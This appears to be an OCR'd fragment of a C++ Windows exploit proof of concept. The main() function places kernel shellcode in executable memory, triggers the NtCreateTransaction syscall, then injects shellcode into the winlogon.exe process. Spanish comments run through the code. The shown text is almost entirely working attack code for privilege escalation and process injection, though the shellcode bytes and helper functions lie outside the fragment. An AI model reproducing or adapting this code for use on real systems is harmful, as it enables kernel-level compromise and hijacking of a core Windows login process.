 ```cpp

	WaitForSingleObject(CreateThread, INFINITE);

	VirtualFreeEx(hProcess, pRemoteAddress, 0x1000, MEM_RELEASE);

	CloseHandle(hProcess);
	CloseHandle(CreateThread);

	return true;
}


int main() {

	printf("\nAllocating Kernel Shellcode...\n");

	// asignamos el espacio
	PVOID pShellcode = VirtualAlloc(nullptr, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	RtlSecureZeroMemory(pShellcode, 0x1000);

	memcpy(pShellcode, KernelShellcode, 130);

	VirtualLock(pShellcode, 0x1000);

	printf("\n[SHELLCODE ADDRESS] 0x%p\n", pShellcode);
	printf("\nPress <ENTER> to trigger NtCreateTransaction syscall\n");
	getchar();

	CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

	const wchar_t* wcProcess = L"winlogon.exe";
	DWORD dwPid = 0;

	wprintf(L"\nPress <ENTER> to inject shellcode (winlogon.exe) into %s process\n", wcProcess);
	getchar();

	if (!ProcessEnum(wcProcess, &dwPid)) {
		printf("\n[main] error enumerating processes\n");
		return 1;
	}

	if (!RemoteInjection(dwPid)) {
		printf("\n[main] error executing the remote process\n");
		return 1;
	}


	return 0;
}
```
